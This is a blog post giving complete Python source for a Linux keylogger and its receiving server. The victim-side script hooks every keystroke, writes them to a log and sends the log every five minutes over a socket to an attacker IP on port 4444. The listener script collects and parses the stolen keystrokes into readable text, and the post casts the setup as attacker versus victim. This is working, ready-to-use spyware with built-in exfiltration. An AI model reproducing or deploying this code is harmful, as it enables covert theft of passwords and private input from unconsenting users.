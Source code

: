 ```yaml
---
title: "Python Keylogger With Sockets"
date: 2023-04-14T10:46:32-05:00
draft: false
---
```

[Link to repo](https://github.com/darefitz/python-keylogger-with-sockets)

I created a keylogger in python and setup sockets to allow the victim machine to send me the keylog contents.
The keylog content is also parsed to be presented neatly.

They keylog script captures all keystrokes and after every 5 minutes sends that file to the attacker via socket.
keylogging script ran on victim's computer:


    #Python keylogger for linux and socket connection to send keylog
    #4/14/2023
    import socket
    import os
    import pyxhook
    import time

    def send_file():
        BUFFER_SIZE = 4096 # send 4096 bytes each time step

        host = "192.168.24.128" #ENTER YOUR RECEIVEING IP HERE
        port = 4444 #ENTER YOUR RECEIVING PORT HERE

        filename = "file.log"

        
        #create sender socket
        s = socket.socket()
        print(f"[+] Connecting to {host}:{port}")
        s.connect((host,port))
        print("[+] Connected.")
        with open(filename, "rb") as f:
            while True:
                #read the bytes from the file
                bytes_read = f.read(BUFFER_SIZE)
                if not bytes_read:
                    #file transmit is done
                    break

                #send all to assure transmission
                s.sendall(bytes_read)
                #update progress bar
                ###progress.update(len(bytes_read))
        print("[+] File sent.")

        #close socket
        s.close()


    PATH = "~/Desktop/keyloggerproj/file.log" #ENTER PATH TO STORE KEYLOG
    #Tell keylogger where to store file:
    log_file = os.environ.get('pylogger_file', os.path.expanduser(PATH))

    #allow a cancel key for example purposes
    cancel_key = ord(os.environ.get('pylogger_cancel','`')[0])

    #allow clearing the log file on start, if pylogger_clean is defined
    if os.environ.get('pylogger_clean', None) is not None:
        try:
            os.remove(log_file)
        except EnvironmentError:
            #file does not exist or incorrect permissions 
            pass

    #create key event and saving it into log file
    def OnKeyPress(event):
        with open(log_file, 'a') as f:
            f.write('{}\n'.format(event.Key))

    #create a hook manager object
    new_hook = pyxhook.HookManager()
    new_hook.KeyDown = OnKeyPress
    #set the hook
    new_hook.HookKeyboard()
    try:
        new_hook.start() #start the hook
    except KeyboardInterrupt:
        #use used cancel key
        pass
    except Exception as ex:
        #Write exceptions to the log file
        msg = 'Error while catching events:\n {}'.format(ex)
        pyxhook.print_err(msg)
        with open(log_file, 'a') as f:
            f.write('\n{}'.format(msg))

    while True:
        time.sleep(300)
        send_file()

The receiving script opens a socket and allows connection, any files sent are parsed and saved locally as file.log

The receiving script:

    #Socket that accepts and parses keylog file
    #4/14/23

    import socket
    import os

    def parse_string(file_content):
        newString = ""
        for word in file_content.split():
            newString += word
            if "BackSpace" in word:
                newString = newString[:-10]
            if "P_Enter" in word:
                newString = newString[:-7]
                newString += ' '
            if "space" in word:
                newString = newString[:-5]
                newString += ' '
            if "period" in word:
                newString = newString[:-6]
                newString += '.'
            if "Return" in word:
                newString = newString[:-6]
                newString += '\n'
            if "Shift_L" in word:
                newString = newString[:-7]

            if "exclam" in word:
                newString = newString[:-6]
                newString += '!'
            if "at" in word:
                newString = newString[:-2]
                newString += '@'
            if "numbersign" in word:
                newString = newString[:-10]
                newString += '#'
            if "dollar" in word:
                newString = newString[:-6]
                newString += '$'
            if "percent" in word:
                newString = newString[:-7]
                newString += '%'
            if "asciicircum" in word:
                newString = newString[:-11]
                newString += '^'
            if "ampersand" in word:
                newString = newString[:-9]
                newString += '&'
            if "asterisk" in word:
                newString = newString[:-8]
                newString += '*'
            if "parenleft" in word:
                newString = newString[:-9]
                newString += '('
            if "parenright" in word:
                newString = newString[:-10]
                newString += ')'
        return newString

    SERVER_HOST = "0.0.0.0"
    SERVER_PORT = 4444

    #recieve 4096 bytes each time
    BUFFER_SIZE = 4096

    s = socket.socket()
    s.bind((SERVER_HOST, SERVER_PORT))

    s.listen(5)
    print(f"[*] Listening as {SERVER_HOST}:{SERVER_PORT}")
    while(1):

        client_socket, address = s.accept()

        print(f"[+] {address} is connected.")

        #recieve file info
        #recieve using client socket, not server socket
        #recieved = client_socket.recv(BUFFER_SIZE).decode()
        #filename = recieved
        #remove abs path
        #filename = os.path.basename(filename)

        filename = "file.log"

        #recieve file from the socket

        with open(filename, "w") as f:
            while True:
                #read 1024 bytes fromt he socket
                bytes_read = client_socket.recv(BUFFER_SIZE)
                #bytes_read.replace('\n', ' ')
                string_read = bytes_read.decode('utf-8')
                
                #for line in string_read.splitlines():
                    #print(line)
                    #if line == 'space':
                        #print("SPACE IS TRUE")

                string_read = string_read.replace('\n', ' ')
                fstring_read = string_read.replace('Space', '')
                #string_read = string_read.replace('P_Enter', '')
                #string_read = string_read.replace('space', '')


                print(f"{string_read}")
                if not bytes_read:
                    #nothing recieved file transmiting is done
                    break
                #write to file the bytes we recieve
                file_content = parse_string(string_read)
                f.write(file_content)


    client_socket.close()

Victim running keylog.py and after 5 min the log is sent:

![Victim running keylog.py](/keylog1.png)

Attacker running receive.py and receiving keylog contents after 5 min:

![Attacker running receive.py](/keylog2.png)

Seeing that the log was successfully received:
![received log](/keylog3.png)

Looking at the contents of the example after 5 min of use:
![example log](/keylog4.png)
